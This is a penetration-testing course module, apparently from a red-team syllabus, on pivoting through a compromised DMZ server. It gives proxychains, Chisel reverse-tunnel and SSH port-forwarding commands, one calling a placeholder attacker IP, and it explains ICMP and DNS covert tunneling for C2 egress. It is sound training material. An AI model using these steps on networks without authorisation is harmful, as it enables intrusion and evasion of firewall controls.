


# 🚇 Module 17b – NETWORK PENETRATION TESTING & PIVOTING
<br>

> [!NOTE]
> **Module Overview:** Once a web server (often located in a DMZ) is compromised, it serves as a "beachhead." Red Teamers must use this compromised machine to pivot and attack the internal network, which is otherwise unreachable from the internet. This module covers the core concepts of port forwarding, tunneling, and lateral movement.

---

## 🏗️ 1. Network Pivoting Architecture (THEORY)

> [!TIP]
> **Module Reference Poster:** The infographic below covers the core concepts of Network Pivoting, Routing Tools (Proxychains, Chisel), and Covert Tunneling (ICMP, DNS). Use this as your primary visual reference for this module.


Network pivoting is the act of routing traffic from an attacker's machine through a compromised host to access systems on a different, restricted network segment.
### The Concept of a "Jump Box"
The compromised web server acts as a proxy or "jump box". When the attacker wants to scan the Internal Database (`192.168.1.10`), they do not send packets directly from Kali. Instead, they tunnel their Nmap scan through the compromised Web Server (`10.0.0.5`), making the traffic appear as if it originated from inside the DMZ.

---

## 🛠️ 2. Port Forwarding & Proxies (PRACTICAL)

To achieve pivoting, we use tools that create tunnels. 

### A. Proxychains
Proxychains is a tool that forces any TCP connection made by any given application to follow through proxy like TOR or any other SOCKS4, SOCKS5 or HTTP(S) proxy.
*   **Configuration File:** `/etc/proxychains.conf`
*   **Usage:** You add `socks5 127.0.0.1 1080` to the bottom of the config file.
*   **Execution:** `proxychains nmap -sT -Pn 192.168.1.10` (Note: Proxychains only supports TCP, so `-sT` must be used).

### B. Chisel
**Practical Labs:** `Portforwarding techniques (chisel)`, `Port_Forwarding (PT GARAGE)`

Chisel is a fast TCP/UDP tunnel transported over HTTP and secured via SSH. It is highly effective for bypassing strict firewalls.

```bash
# Step 1: Start Chisel Server on the Attacker Kali Machine
chisel server -p 8000 --reverse

# Step 2: Upload Chisel Client to the compromised target and execute
# This opens a SOCKS5 proxy on Kali's port 1080, routing all traffic through the compromised host.
chisel client <KALI_IP>:8000 R:socks
```

### C. SSH Port Forwarding
If the compromised machine is Linux and has SSH enabled, you can use SSH for native port forwarding.
*   **Local Port Forwarding (`-L`):** Forwards a local port to a remote destination.
    `ssh -L 8080:192.168.1.10:80 user@10.0.0.5`
*   **Dynamic Port Forwarding (`-D`):** Creates a SOCKS proxy on your local machine.
    `ssh -D 1080 user@10.0.0.5` (Used with Proxychains).

---

## 🕵️ 3. Covert Tunneling Techniques (THEORY)

If standard ports (like SSH 22 or HTTP 80) are blocked by the organization's outbound (egress) firewall, Red Teamers must use covert channels to tunnel their Command and Control (C2) traffic out of the network.

### A. ICMP Tunneling

**Syllabus Item:** `ICMP tunneling THEORY`

ICMP Tunneling involves encapsulating TCP traffic inside ICMP (ping) packets. This is very stealthy if an organization allows internal machines to ping the internet but blocks HTTP/SSH.



### B. DNS Tunneling

**Syllabus Item:** `DNS tunneling THEORY`

DNS Tunneling encapsulates data within DNS queries and responses. This bypasses captive portals and strict egress firewalls because almost all corporate networks allow DNS queries (Port 53) to external DNS servers to resolve domains.



**Common Tools for Covert Tunneling:**
*   `ptunnel` (ICMP)
*   `dnscat2` (DNS)
*   `Iodine` (DNS)

<br>
<p align="center"><i>End of Module 17b</i></p>
